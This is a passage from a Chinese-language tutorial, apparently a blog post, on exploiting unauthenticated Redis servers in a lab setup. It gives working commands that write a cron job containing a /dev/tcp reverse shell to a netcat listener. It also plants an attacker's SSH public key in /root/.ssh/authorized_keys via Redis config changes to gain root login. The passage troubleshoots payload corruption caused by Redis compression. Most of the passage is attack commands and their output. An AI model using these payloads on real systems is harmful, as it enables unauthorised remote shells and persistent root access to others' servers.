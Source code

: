 kali中打开一个新的命令行窗口执行`nc -lvnp 4444`进行监听，过一会儿就能接收到反弹回来的shell：

[![img](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105249042-1990828012.png)](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105249042-1990828012.png)

由于redis的压缩储存机制，在某些情况下会因为反弹shell的指令被压缩，从而导致反弹shell失败：



```shell
192.168.100.101:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.100.100/4444 0>&1\n"
192.168.100.101:6379> save

[root@localhost  ~]# cat /var/spool/cron/root 
* �bash -i &> /dev/tcp/192.168.100@/4  0>&1

192.168.100.101:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.100.99/4444 0>&1\n"
192.168.100.101:6379> save

[root@localhost  ~]# cat /var/spool/cron/root 
* * * * * bash -i &> /dev/tcp/192.168.100.99/4444 0>&1
```

当运行redis的用户为普通用户时，会无法出现切换目录失败的情况：



```shell
config set dir /var/spool/cron
(error) ERR Changing directory: Permission denied
```

## 0x03 通过SSH公钥远程连接

利用条件：

- redis以root身份运行
- 未授权访问或授权口令已知
- 服务器开放SSH服务且允许密钥登录

在kali中使用`ssh-keygen -t rsa`生成密钥：

[![img](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105312101-848184558.png)](https://img2022.cnblogs.com/blog/2708418/202201/2708418-20220124105312101-848184558.png)

将生成的公钥文件保存到本地：



```shell
┌──(root💀kali)-[/home/kali]
└─# (echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > kali
```

将文件写入redis进行利用：



```shell
# 将上一步生成的kali文件写入redis并设置键的值为kali
┌──(root💀kali)-[/home/kali]
└─# cat kali | redis-cli -h 192.168.100.101 -p 6379 -x set kali

# 连接redis，并将公钥文件写入/root/.ssh/authorized_keys中
┌──(root💀kali)-[/home/kali]
└─# redis-cli -h 192.168.100.101 -p 6379
192.168.100.101:6379> config set dir /root/.ssh/
192.168.100.101:6379> config set dbfilename authorized_keys
192.168.100.101:6379> save

# 使用密钥进行登录
┌──(root💀kali)-[/home/kali]
└─# ssh -i /root/.ssh/id_rsa root@192.168.100.101
```